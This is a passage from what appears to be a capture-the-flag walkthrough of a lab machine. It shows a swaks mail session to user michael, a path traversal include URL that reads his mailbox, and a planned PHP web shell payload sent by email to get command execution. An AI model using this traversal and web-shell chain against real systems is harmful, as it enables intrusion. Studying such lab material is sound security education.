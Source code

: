 I'll send mail to the account using `swaks`:



    oxdf@hacky$ swaks --to michael --from 0xdf --header "Subject: Testing!" --body "ignore this message" --server 10.10.11.166
    === Trying 10.10.11.166:25...
    === Connected to 10.10.11.166.
    <-  220 debian.localdomain ESMTP Postfix (Debian/GNU)
     -> EHLO hacky
    <-  250-debian.localdomain
    <-  250-PIPELINING
    <-  250-SIZE 10240000
    <-  250-VRFY
    <-  250-ETRN
    <-  250-STARTTLS
    <-  250-ENHANCEDSTATUSCODES
    <-  250-8BITMIME
    <-  250-DSN
    <-  250-SMTPUTF8
    <-  250 CHUNKING
     -> MAIL FROM:<0xdf>
    <-  250 2.1.0 Ok
     -> RCPT TO:<michael>
    <-  250 2.1.5 Ok
     -> DATA
    <-  354 End data with <CR><LF>.<CR><LF>
     -> Date: Sat, 15 Oct 2022 10:46:03 +0000
     -> To: michael
     -> From: 0xdf
     -> Subject: Testing!
     -> Message-Id: <20221015104603.525294@hacky>
     -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
     -> 
     -> ignore this message
     -> 
     -> 
     -> .
    <-  250 2.0.0 Ok: queued as 836FB4099C
     -> QUIT
    <-  221 2.0.0 Bye
    === Connection closed with remote host.



The email is there at
`http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael`:

![](/img/image-20221015064830865.png)

#### Include PHP

Because the `page` parameter is being included with the `include`
keyword, that means any PHP in it will be run. I'll resend the email,
this time with `--body '<?php system($_REQUEST["cmd"]); ?>"`.
